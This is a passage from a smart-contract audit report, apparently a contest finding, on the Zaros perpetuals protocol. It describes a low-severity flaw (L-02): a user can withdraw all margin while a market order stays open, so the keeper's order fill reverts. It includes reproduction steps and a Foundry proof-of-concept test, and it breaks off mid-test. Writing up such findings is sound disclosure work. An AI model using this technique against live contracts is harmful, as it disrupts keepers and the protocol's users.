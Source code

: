 ```solidity

    function _authorizeUpgrade(RootProxy.BranchUpgrade[] memory) internal onlyOwner { }
}

```

# [L-02] User can withdraw all of his funds while having an active market order thus DOSing keeper

## Summary

&#x20;

The user can withdraw all of his funds while having an active market order in place thus allowing him to DOS the keeper when it tries to fill his order.

## Vulnerability Details

Steps to reproduce the issue:

1. User deposits funds
2. Opens market order
3. Withdraws funds
4. The market order is still present
5. Keeper tries to [`fillMarketOrder()`](https://github.com/Cyfrin/2024-07-zaros/blob/d687fe96bb7ace8652778797052a38763fbcbb1b/src/perpetuals/branches/SettlementBranch.sol#L107)
6. Transaction reverts

### POC

Make the following changes to simulateTrade.t.sol and run the test with `forge test --mt test_dos_keeper_by_withdraw -vvvv`
```solidity
...
+ import { OrderBranch } from "@zaros/perpetuals/branches/OrderBranch.sol";

contract SimulateTradeIntegrationTest is Base_Test {
		...
+		function test_dos_keeper_by_withdraw() public {
+        // user deposit funds
+        uint256 marginValueUsd = 5000e18;
+        deal({ token: address(usdz), to: users.naruto.account, give: marginValueUsd });
+        uint128 tradingAccountId = createAccountAndDeposit(marginValueUsd, address(usdz));
+        uint128 marketId = 1;
+
+       // user make market order
+        perpsEngine.createMarketOrder(
+            OrderBranch.CreateMarketOrderParams({
+                tradingAccountId: tradingAccountId,
+                marketId: marketId,
+                sizeDelta: 1e18
+            })
+        );

+        // user withdraws the funds
+        perpsEngine.withdrawMargin(tradingAccountId, address(usdz), marginValueUsd);

+        // keeper fills order
+        MarketConfig memory fuzzMarketConfig = getFuzzMarketConfig(marketId);
+        bytes memory firstMockSignedReport = getMockedSignedReport(fuzzMarketConfig.streamId, fuzzMarketConfig.mockUsdPrice);
+        address keeper = marketOrderKeepers[marketId];
+        changePrank({ msgSender: keeper });
```